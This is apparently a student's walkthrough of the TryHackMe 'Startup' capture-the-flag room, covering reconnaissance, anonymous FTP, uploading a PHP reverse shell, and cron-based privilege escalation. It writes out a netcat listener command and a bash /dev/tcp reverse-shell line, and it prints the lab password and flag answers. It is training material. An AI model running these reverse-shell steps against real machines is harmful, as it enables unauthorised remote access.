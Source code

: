```yaml
---
Title: SWS101 CTF Journal 2
categories: [SWS101, CTF_Journal2]
tags: [SWS101]
---
```


# Try Hack Me Room: Startup

![CTF](/pictures/SWS_pictures/startup/startup.png)

## Task1: Welcome to Spice Hut!

![CTF](/pictures/SWS_pictures/startup/chilli.png)

“We are Spice Hut, a new startup company that just made it big! We offer a variety of spices and club sandwiches (in case you get hungry), but that is not why you are here. To be truthful, we aren't sure if our developers know what they are doing and our security concerns are rising. We ask that you perform a thorough penetration test and try to own the root. Good luck!”

First let’s start the reconnaissance by doing nmap.

![CTF](/pictures/SWS_pictures/startup/nmap.png)

3 ports were open.

Port 80 is open so let’s check the http website

![CTF](/pictures/SWS_pictures/startup/webpage.png)

There is only one message left by the dev team.

### What is the secret spicy soup recipe?
Since FTP is open, let’s try to login to ftp as anonymous.

![CTF](/pictures/SWS_pictures/startup/ftp.png)

List of files and directories inside ftp

![CTF](/pictures/SWS_pictures/startup/ls.png)

Now let’s download those files with the ‘get’ command.


This is the important.jpg 

![CTF](/pictures/SWS_pictures/startup/important.jpg)

This the notice.txt 

![CTF](/pictures/SWS_pictures/startup/notice.png)

From this notice i found one of the username “Maya”

Next I also change the directory to ftp and ls the directories inside it but there are only hidden files.

![CTF](/pictures/SWS_pictures/startup/cdftp.png)

Let’s use ffuf and find the directories in http port.

![CTF](/pictures/SWS_pictures/startup/ffuf.png)

I found that /files path is there in http port, now let’s check it out.

![CTF](/pictures/SWS_pictures/startup/file.png)

Wow, this is a ftp service. We can use this to get access to the machine by uploading a shell to the FTP service and executing it in our browser. I will upload the php reverse shell file, which I saved in php-reverse-shell.php.

To upload the file to the ftp directory on the FTP service, the command is put php-reverse-shell.php.

![CTF](/pictures/SWS_pictures/startup/put.png)

I see that a shell.php file is uploaded. We’ll start a netcat listener using the following command: nc -lvnp 1234

![CTF](/pictures/SWS_pictures/startup/netcat.png)

With our listener set up, we can click the php-reverse-shell.php file in our browser.

<b>ANS:</b> love


### What are the contents of user.txt?
We got the password for linnie i.e c4ntg3t3n0ughsp1c3, now let’s login using ssh.

![CTF](/pictures/SWS_pictures/startup/pass.png)

BOOM! Here i got the user.txt file and the flag

<b>ANS:</b> THM{03ce3d619b80ccbfb3b7fc81e46c0e79}

### What are the contents of root.txt?
Now it’s time to get the root flag. Linnie has 2 other directories that are Documents and scripts. In scripts directories there is something useful.

![CTF](/pictures/SWS_pictures/startup/echo.png)

I could see that planner.sh is running every minute and modifying the contents of startup_list.txt.
we can modify /etc/print.sh. I can put the bash command into the print.sh script:<br>
bash -i >& /dev/tcp/10.10.51.47/4444 0>&1

![CTF](/pictures/SWS_pictures/startup/nano.png)

I opened a listener in my terminal and in a minute I received the connection( we need to wait a little).

![CTF](/pictures/SWS_pictures/startup/root.png)

Finally list the files and grab the root flag.

<b>ANS:</b> THM{f963aaa6a430f210222158ae15c3d76d}

That’s it for this startup room, see you guys on the next try hack me room walkthrough.
